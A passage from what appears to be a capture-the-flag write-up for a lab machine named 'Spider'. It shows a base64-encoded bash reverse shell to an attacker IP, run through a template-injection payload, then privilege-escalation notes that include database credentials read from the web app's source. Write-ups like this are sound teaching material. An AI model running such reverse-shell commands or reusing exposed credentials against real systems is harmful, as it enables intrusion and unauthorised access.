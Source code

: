 **Getting reverse shell**

Generate encoded reverse shell
```bash
❯ echo -n "/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc=

echo -n L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMSc= | base64 -d | bash
```

![](/assets/img/posts/spider/ssti-payload3.png)



![](/assets/img/posts/spider/ssti-rev-shell.png)

# Privesc

* Found user "chiv" ssh key in his home folder.
* `/var/www/webapp` contains the webapp files which running on port 80
* Found database creds from `/var/www/webapp/app.py`: `chivato:rghorsfruUEFHEfhes83214`
* There is a another http server running on localhost on port 8080
* There is a another folder name "game" which probably running on port 8080, but don't have permission to access into it.

      (remote) chiv@spider:/var/www$ cd game/
      bash: cd: game/: Permission denied


